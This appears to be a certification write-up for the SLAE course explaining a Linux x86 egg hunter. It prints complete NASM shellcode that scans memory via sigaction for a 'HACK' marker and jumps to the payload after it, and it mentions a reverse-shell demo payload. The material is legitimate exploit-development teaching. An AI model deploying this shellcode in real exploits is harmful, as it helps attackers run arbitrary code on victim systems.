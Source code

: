 # 3. Egg Hunter (linux/x86)

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a demo of an egg hunter that will locate and execute a shellcode payload for Linux on the x86 architecture. The goal is to avoid null bytes while making the egg hunter as small as possible.

Additionally, it should be easy to change the payload used in the demo.

## Solution

The solution is based on the [egg hunter](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) written by Matt Miller. The egg hunter will search through the virtual address space looking for an "egg string" reapeated twice. It will then continue execution after this signature.

The egg string is defined at the top of the NASM source of the egg hunter:

```nasm
global _start

egg equ 0x4b434148  ; "HACK" in ASCII (little endian)
```

The egg hunter will align to a page boundary and use the [sigaction](https://man7.org/linux/man-pages/man2/sigaction.2.html) system call to check if the memory at that location is readable. This is possible because the system call will verify 16 bytes of memory at the location pointed to by the ECX register. If the memory is not readable, it will continue to the next memory page and repeat this process:

```nasm
section .text

_start:
    ; Align ECX to page boundary (page size = 4096). We don't care about the initial value of ECX (it'll wrap around).
    or cx, 0xfff
continue:
    inc ecx
    
    ; Call 'sigaction' to check read access of memory.
    ; int sigaction(int signum, const struct sigaction *act, struct sigaction *oldact): syscall 0x43
    ;     sigaction(whatever, memory_address, whatever)
    push 0x43
    pop eax
    int 0x80
    
    ; Check if EFAULT (= 14 -> -14 = 0xf2) is returned. If that's the case, move on to the next page.
    cmp al, 0xf2
    je _start
```

The egg hunter will then do a string comparison of the current memory location and the repeated egg string. If there is a match, execution will continue after this signature where the payload should be placed:

```nasm
    ; Compare the current four bytes of memory to the egg. If it doesn't match, move on to the next address.
    mov eax, egg
    mov edi, ecx
    scasd
    jne continue
    
    ; Compare the next four bytes of memory to the egg. If it doesn't match, move on to the next address.
    scasd
    jne continue
    
    ; We found the egg! Jump to the payload following it.
    jmp edi
```

The complete source code can be found here: [egghunter.nasm](https://github.com/SpacePlant/slae32/blob/main/egghunter.nasm)

The demo written in C contains the TCP reverse shell shellcode from the [previous assignment](2) prepended with the repeated egg string as the payload. The egg hunter is executed and will locate and execute the payload. The source code of the demo can be found here: [egghunter_demo.c](https://github.com/SpacePlant/slae32/blob/main/egghunter_demo.c)
